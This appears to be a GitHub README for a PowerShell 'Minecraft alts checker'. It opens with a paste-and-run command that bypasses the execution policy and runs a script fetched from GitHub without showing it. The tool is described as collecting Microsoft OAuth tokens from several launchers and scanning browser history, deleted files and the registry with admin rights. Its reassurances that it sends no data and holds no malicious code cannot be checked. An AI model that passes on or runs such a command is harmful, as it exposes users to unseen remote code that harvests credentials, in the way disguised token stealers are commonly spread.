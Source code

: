 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

**🛠️ Minecraft Alts Checker Tool**
A PowerShell utility for analyzing Minecraft accounts stored locally by various launchers, with JWT token decoding capabilities.

🔍 **Features**
 - 🕵️‍♂️ **Account Analysis**
   - Multi-Launcher Support:
      - TLauncher
      - Official Minecraft Launcher
      - MultiMC
      - Badlion Client
      - Lunar Client
   - Microsoft OAuth Token Detection (`accessToken/id_token`)
   - JWT Token Decoding with detailed claims inspection
   - Account Type Identification (Premium/Cracked)

🔎 **Forensic Capabilities**
   - Comprehensive File Parsing:
      - `%APPDATA%\.minecraft\TlauncherProfiles.json`
      - `%APPDATA%\.minecraft\launcher_accounts.json`
      - `%APPDATA%\.minecraft\usernamecache.json`
      - `%APPDATA%\.minecraft\usercache.json`
      - MultiMC `accounts.json`
      - Badlion Client `settings.json`
      - Lunar Client `accounts.json`
   - Advanced Config Search across multiple launcher directories
   - Deleted File Recovery using USN journal analysis
   - Registry Analysis for installed Minecraft applications

📋 **Account Information Display**
 - For each found account, shows:
      - Username/Display Name
      - UUID
      - Account type (Microsoft/Mojang/Cracked)
      - Microsoft token presence (✅/❌)
      - Premium status
      - Last accessed timestamp
      - Source launcher

🔐 **Advanced JWT Decoding**
 - Built-in `Decode-Jwt` function:
      - Accepts JWT tokens (`accessToken` or `id_token`)
      - Splits and base64-decodes the payload
      - Returns readable JSON claims in table format
      - Token expiry detection and validation
      - Detailed claims analysis (sub, iss, aud, etc.)

🖥️ **System Analysis**
 - Process Monitoring for Minecraft-related executables
      - Windows Event Log analysis
      - Browser History scanning (Chrome/Firefox)
      - Registry Inspection for installed launchers

📊 **Reporting**
 - Interactive HTML Report with filtering capabilities
      - CSV Export for all found accounts
      - Backup System for Minecraft configurations
      - Account Summary with statistics

🚀 **New in v3.0**
      - Beautiful animated ASCII logo with color effects
      - Enhanced account detection for more launchers
      - Comprehensive system analysis tools
      - Professional HTML reporting
      - Data export capabilities (CSV)
      - Configuration backup system
      - Windows event log analysis
      - Browser history scanning
      - Registry inspection
      - Deleted file recovery
      - Multi-language support

⚠️ **Requirements**
      - Windows PowerShell 5.1+
      - Administrative privileges (for full forensic capabilities)
      - Minecraft or alternative launcher installation

📜 **Legal Notice**
 - This tool is intended solely for:
      - Personal use
      - Debugging purposes
      - Educational research
      - Account recovery
      - Prohibited Uses:
      - Violating any terms of service
      - Accessing unauthorized accounts
      - Conducting illegal activities

**`The author disclaims all responsibility for misuse of this software.`**

🛡️ **Security Note**
 - The script:
      - Runs locally without external data transmission
      - Requests minimal necessary permissions
      - Provides transparent account inspection
      - Includes no malicious code
      - Respects user privacy

**`Not affiliated with Mojang Studios or Microsoft. Minecraft is a trademark of Mojang Studios.`**

👥 **Credits**
 - **`Developed by usnjournal. & onlynelchilling`**

